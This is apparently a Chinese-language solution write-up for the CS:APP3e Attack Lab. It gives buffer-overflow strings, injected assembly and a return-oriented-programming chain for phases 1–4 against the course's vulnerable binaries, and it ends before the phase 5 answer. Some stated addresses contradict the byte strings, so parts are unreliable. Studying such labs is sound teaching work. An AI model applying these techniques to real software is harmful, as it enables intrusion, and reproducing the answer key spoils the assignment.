 # Attack Lab
### lab地址： [CS:APP3e Student Site](http://csapp.cs.cmu.edu/3e/students.html)
## 实验文件组成
    README.txt: A file describing the contents of the directory  

    ctarget: An executable program vulnerable to code-injection attacks  

    rtarget: An executable program vulnerable to return-oriented-programming attacks  

    cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.  

    farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
    programming attacks.

    hex2raw: A utility to generate attack strings.
## 常用指令
    cat answerk | ./hex2raw | ./ctarget -q（不加-q 不能运行）
    objdump -d xx.o > xx 反汇编指令
    gcc -c xx.i 将汇编语言转换为机器语言    

## answer1:
第一个任务只需要把栈填充40个地址然后覆盖原来的返回地址，通过汇编语言翻译为机器地址

    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    c0 17 40 00 00 00 00 00  
## answer2:
第二个任务需要我们自己编写汇编代码，把cookie传入寄存器rdi中:  

    movq $0x59b997fa , %rdi
    pushq $0x004017c0
    retq  
然后把这个栈帧的返回地址改为栈顶  

    gcc -c answer2.s //之后生成answer2.o
    objdump -d answer2.o >> answer2.s //获得字节序列  

最终的字节序列为

    48 c7 c7 fa 97 b9 59
    68 ec 17 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
## answer3:
第三个任务需要把cookie存入到栈中，把地址传给rdi  

因为在这里后面的hexmatch 和strncmp会覆盖getbuf中的memory  
而观察test过程的栈空间是没有被利用的，所以我们可以覆盖调用函数的栈空间来存储注入代码字符串  
buf栈顶的位置在0x5561dc78 栈底0x5561dca0 所以跳过保存地址的8个字节  
我们存储字符串的位置就在0x5561dca8  
touch3()地址 $0x004018fa  
注入代码

    mov $0x5561dca8 , %rdi
    pushq   $0x004018fa
    retq
最终的字节序列：

    48 c7 c7 a8 dc 61 55 
    68 fa 18 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61
## answer4:
因为**栈随机化**，因此不可以通过栈地址来注入执行代码  
为了达到movq $0x59b997fa,%rdi  我们利用原来的代码碎片
首先填充40个空的字节，把原来的返回地址改为pop %rax代码地址  
我们查询到pop %rax 字节序列为58 90 
找到代码碎片地址 0x004019ab  
然后填充8个字节cookie ,再返回到代码碎片 movq %rax,%rdi ,对应地址为0x004889c7

最终的字节序列为

    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    ab 19 40 00 00 00 00 00
    fa 97 b9 59 00 00 00 00
    c5 19 40 00 00 00 00 00
    ec 17 40 00 00 00 00 00

## answer5:
最后一个任务实现与phase_3差不多，栈结构如下：
